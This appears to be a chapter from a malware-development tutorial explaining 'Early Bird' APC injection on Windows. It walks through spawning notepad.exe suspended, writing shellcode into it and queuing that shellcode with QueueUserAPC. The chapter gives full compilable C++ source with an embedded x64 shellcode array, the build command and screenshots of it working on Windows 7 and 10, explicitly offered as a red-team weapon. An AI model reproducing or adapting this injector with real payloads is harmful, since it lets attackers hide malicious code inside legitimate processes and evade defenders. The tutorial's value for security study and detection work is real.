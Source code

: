 \newpage
\subsection{13. APC injection technique. Simple C++ malware.}

﷽

![APC injection](./images/21/2021-11-11_14-32.png){width="80%"}

In the previous sections I wrote about classic code injection, and classic DLL injection.     

Today in this section I will discuss about a "Early Bird" APC injection technique. Today we're going to look at [QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc) which takes advantage of the asynchronous procedure call to queue a specific thread.      

Each thread has its own APC queue. An application queues an APC to a thread by calling the QueueUserAPC function. The calling thread specifies the address of an APC function in the call to QueueUserAPC. The queuing of an APC is a request for the thread to call the APC function.    

High level overview of this technique is:       
Firstly, our malicious program creates a new legitimate process (in our case `notepad.exe`):       

![APC 1](./images/21/apc-1.png){width="80%"}          

![APC injection 2](./images/21/2021-11-11_15-09.png){width="80%"}    

Whenever we see a call to `CreateProcess`, two important parameters we want to pay attention to are the first (executable to be invoked), and sixth (process creation flags). The creation flag is `CREATE_SUSPENDED`.        

Then, memory for payload is allocated in the newly created process's memory space:     

![APC 2](./images/21/apc-2.png){width="80%"}    

![APC injection 3](./images/21/2021-11-11_15-12.png){width="80%"}    

As I wrote earlier in previous posts, there is a very important difference between `VirtualAlloc` and `VirtualAllocEx`. The former will allocate memory in the calling process, the latter will allocate memory in a remote process. So if we see malware call `VirtualAllocEx`, there more than likely will be some kind of cross process activity about to commence.

[APC](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls) routine pointing to the shellcode is declared.    
Then payload is written to the allocated memory:    

![APC 3](./images/21/apc-3.png){width="80%"}         

APC is queued to the main thread which is currently in suspended state:     

![APC 4](./images/21/apc-4.png){width="80%"}    

![APC injection 4](./images/21/2021-11-11_15-13.png){width="80%"}    

Finally, thread is resumed and our payload is executed:    

![APC 5](./images/21/apc-5.png){width="80%"}    

![APC injection 5](./images/21/2021-11-11_15-14.png){width="80%"}    

So, our full source code is (`evil.cpp`):      

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};

int main() {

  // Create a 64-bit process:
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  LPVOID my_payload_mem;
  SIZE_T my_payload_len = sizeof(my_payload);
  LPCWSTR cmd;
  HANDLE hProcess, hThread;
  NTSTATUS status;

  ZeroMemory(&si, sizeof(si));
  ZeroMemory(&pi, sizeof(pi));
  si.cb = sizeof(si);

  CreateProcessA(
    "C:\\Windows\\System32\\notepad.exe",
    NULL, NULL, NULL, false,
    CREATE_SUSPENDED, NULL, NULL, &si, &pi
  );
  WaitForSingleObject(pi.hProcess, 5000);
  hProcess = pi.hProcess;
  hThread = pi.hThread;

  // allocate a memory buffer for payload
  my_payload_mem = VirtualAllocEx(hProcess, NULL, my_payload_len,
    MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  // write payload to allocated buffer
  WriteProcessMemory(hProcess, 
  my_payload_mem, 
  my_payload, 
  my_payload_len, NULL);

  // inject into the suspended thread.
  PTHREAD_START_ROUTINE apc_r = (PTHREAD_START_ROUTINE)my_payload_mem;
  QueueUserAPC((PAPCFUNC)apc_r, hThread, NULL);

  // resume to suspended thread
  ResumeThread(hThread);

  return 0;
}
```

As you can see for simplicity, we use 64-bit `calc.exe` as the payload. Without delving into the generation of the payload, we will simply insert payload into our code:    

```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
```

Let's go to compile:    
```bash
x86_64-w64-mingw32-gcc evil.cpp -o evil.exe -s \
-ffunction-sections -fdata-sections -Wno-write-strings \ 
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc
```

![APC injection 6](./images/21/2021-11-11_15-18.png){width="80%"}    

Let's go to launch a `evil.exe` on windows 7 x64:    

![APC injection 7](./images/21/2021-11-11_15-24.png){width="80%"}    

If we check the newly started `notepad.exe` in the Process Hacker, we can confirm that the main thread is indeed suspended:     

![APC injection 8](./images/21/2021-11-11_15-51.png){width="80%"}    

> As you can see, `WaitForSingleObject` function second parameter is `30000` for demonstration, in real-world scenario it's not so big.        

Our `evil.exe` is also worked in `windows 10 x64`:     

![APC injection 9](./images/21/2021-11-11_14-29.png){width="80%"}    


[APC MSDN](https://docs.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)         
[QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)          
[VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
[WaitForSingleObject](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)        
[WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)      
[ResumeThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread)     
[ZeroMemory](https://docs.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa366920(v=vs.85))            
[Source code in Github](https://github.com/cocomelonc/2021-11-11-malware-injection-3)         

In the future I will try to figure out more advanced code injection techniques.

I hope this section spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.      
